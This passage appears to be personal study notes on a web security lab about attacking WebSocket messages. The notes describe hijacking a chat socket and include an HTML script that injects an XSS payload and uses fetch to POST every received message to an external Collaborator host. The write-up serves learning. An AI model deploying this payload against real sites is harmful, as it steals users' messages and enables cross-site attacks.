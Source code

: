 - Opens a new WebSocket with specified URL
- When opened, run a function that sends the READY message
- Receive back info from the server and use fetch to send request to attacker endpoint

Test it to see if it works. If requests are retrieved in Collaborator, send it to the victim.

![[CollabDomains.png]]

An example exploitation payload - although this does not work in the labs, this is something that can be done to inject XSS through web socket messages to attack other users. The "message" parameter in the lab was used to communicate/send messages to the server through web socket.

```html
<script>
    var ws = new WebSocket('wss://0a97008101b00a8.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("{\"message\":\"<img src=x onerror=alert(1)>\"}");
    };
    ws.onmessage = function(event) {
        fetch('https://a8jc1jg75.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

